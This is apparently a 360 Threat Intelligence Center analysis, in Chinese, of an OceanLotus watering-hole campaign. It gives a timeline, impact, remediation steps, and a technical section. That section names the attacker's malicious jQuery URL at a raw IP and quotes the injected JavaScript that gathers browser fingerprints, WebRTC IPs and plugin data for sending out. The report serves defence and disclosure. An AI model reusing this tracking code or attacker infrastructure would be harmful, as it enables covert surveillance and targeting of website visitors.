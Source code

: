 <br>

**事件时间线**

****

2017 年 11 月 6 日 Volexity 公司发布了据称海莲花新活动的报告。 

2017 年 11 月 7 日 360 威胁情报中心发现确认部分攻击并作出响应。

<br>

**影响面和危害分析**

****



攻击者团伙入侵目标用户可能访问的网站，不仅破坏网站的安全性，还会收集所访问用户的系统信息。如果确认感兴趣的目标，则会执行进一步的钓鱼攻击获取敏感账号信息或尝试植入恶意程序进行秘密控制。

基于360网络研究院的数据，访问过攻击者设置的信息收集恶意站点有可能被获取自身主机信息的用户数量在十万级别，造成较大的敏感信息泄露，而这些用户中的极少数被诱骗下载执行恶意代码从而植入后门。

目前360威胁情报中心确认部分网站受到了影响，**建议用户，特别是政府及大型企业结合附件提供的IOC信息对自身系统进行检查处理。**

<br>

**处置建议**

****

1. 网站管理员检查自己网站页面是否被植入了恶意链接，如发现，清理被控制的网站中嵌 入的恶意代码，并排查内部网络的用户是否被植入了恶意程序。 

2. 电脑安装防病毒安全软件，确认规则升级到最新。

<br>

**技术分析**

****

**JavaScript分析**

**执行步骤**

攻击者通过水坑攻击将恶意JavaScript代码植入到合法网站，收集用户浏览器指纹信息，修改网页视图诱骗用户登陆钓鱼页面、安装下载恶意软件。

大致的执行步骤是首先JavaScript脚本根据基础信息，引用到指定版本的恶意jQuery JavaScript文件进一步收集信息后获取新的JavaScript Payload。此Payload是大量的基础的函数以及更详尽的设备信息收集，同时还通过WebRTC获得真实IP地址。发送信息到通信地址加载新的 JavaScript Payload，此Payload进一步信息收集或者产生后续攻击变换。

**探针一**

**http://45.32.105.45/ajax/libs/jquery/2.1.3/jquery.min.js?s=1&amp;v=86462**

jquery的最下面有个eval

[![](https://p5.ssl.qhimg.com/t010f0bf592a7c1d0a6.png)](https://p5.ssl.qhimg.com/t010f0bf592a7c1d0a6.png)

核心获取传输数据部分如下：

```
var browser_hash = 'b0da8bd67938a5cf22e0-37cea33014-iGJHVcEXbp';
var data = `{` 'browserhash': browserhash, 'type': 'Extended Browser Info', 'action': 'replace', 'name': 'WebRTC', 'value': array2json(window.listIP).replace(/"/g, '"'), 'log': 'Receiced WebRTC data from client `{`client`}`.' `}`; 
var data = `{` 'browserhash': browserhash, 'type': 'Extended Browser Info', 'name': 'Browser Plugins', 'action': 'replace', 'value': array2json(plugins).replace(/"/g, '"'), 'log': 'Receiced Browser Plugins data from client `{`client`}`.' `}`; 
var info = `{` 'Screen': screen.width + ' x ' + screen.height, 'Window Size': window.outerWidth + ' x ' + window.outerHeight, 'Language': navigator.language, 'Cookie
Enabled': (navigator.cookieEnabled) ? 'Yes' : 'No', 'Java Enabled': (navigator.javaEnabled()) ? 'Yes' : 'No' `}`; 
var data = `{` 'browserhash': browserhash, 'type': 'Extended Browser Info', 'name': 'Extended Browser Info', 'action': 'replace', 'value': array2json(info).replace(/"/g, '"'), 'log': 'Receiced Extended Browser Info data from client `{`client`}`.' `}`;
```
